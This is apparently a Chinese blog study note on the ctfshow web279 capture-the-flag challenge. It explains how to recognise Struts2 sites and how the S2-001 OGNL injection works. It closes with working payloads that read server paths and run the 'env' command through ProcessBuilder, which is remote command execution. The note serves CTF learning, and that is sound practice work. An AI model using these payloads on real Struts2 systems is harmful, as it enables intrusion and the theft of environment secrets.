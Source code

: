 ```yaml
---
title: ctfshow-java
date: 2024-11-15 19:47:20
tags:
categories: 学习笔记
---
```


看wp说好像ctfshow全是java的Struts2的框架漏洞

Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

**判断网站是否基于Struts2的方法**

- 通过页面回显的错误消息来判断，页面不回显错误消息时则无效
- 通过网页后缀来判断，如.do .action，有可能不准
- 如果配置文件中常数extension的值以逗号结尾或者有空值，指明了action可以不带后缀，那么不带后缀的uri也可能是struts2框架搭建的
- 如果使用Struts2的rest插件，其默认的struts-plugin.xml指定的请求后缀为xhtml,xml和json
  判断 /struts/webconsole.html 是否存在来进行判断，需要 devMode 为 true

## web279

给出提示echo flag

我们看到url也有提示 **S2-001**

![image-20241115195142711](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411151951801.png)

[s2-001](https://www.freebuf.com/column/224041.html)是一个struts2命令执行漏洞编号

漏洞原理

> struts2漏洞 S2-001是当用户提交表单数据且验证失败时，服务器使用OGNL表达式解析用户先前提交的参数值，%{value}并重新填充相应的表单数据。

![1](https://i-blog.csdnimg.cn/blog_migrate/a3223a8c6a4c9cdfa2566cf54f5523e5.gif)

加法表达式`%{1+1}`成功执行

我们了解下OGNL表达式三个符号%,#,$的符号的含义

> - `%`的用途是在标志的属性为字符串类型时，计算OGNL表达式%{}中的值
> - `#`的用途访主要是访问非根对象属性，因为Struts 2中值栈被视为根对象，所以访问其他非根对象时，需要加#前缀才可以调用
> - `$`主要是在Struts 2配置文件中，引用OGNL表达式

payload

```
// 获取tomcat路径
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}

// 获取web路径
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}

// 命令执行 env，flag就在其中
password=%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"env"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}&username=1

```

